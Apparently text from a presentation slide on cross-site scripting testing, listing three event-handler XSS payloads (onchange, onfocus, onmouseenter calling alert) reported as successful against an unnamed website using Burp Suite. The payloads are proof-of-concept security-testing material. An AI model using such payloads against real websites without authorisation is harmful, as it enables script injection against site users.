

Some Examples of successful payloads are :
<select onchange=alert(1)><option>1<option>2
<keygen autofocus onfocus=alert(1)>
<br onmouseenter="alert(1)">test</br>
CONCLUSION : Used Burp suite Community Edition and found different successful payloads that can be used on the website.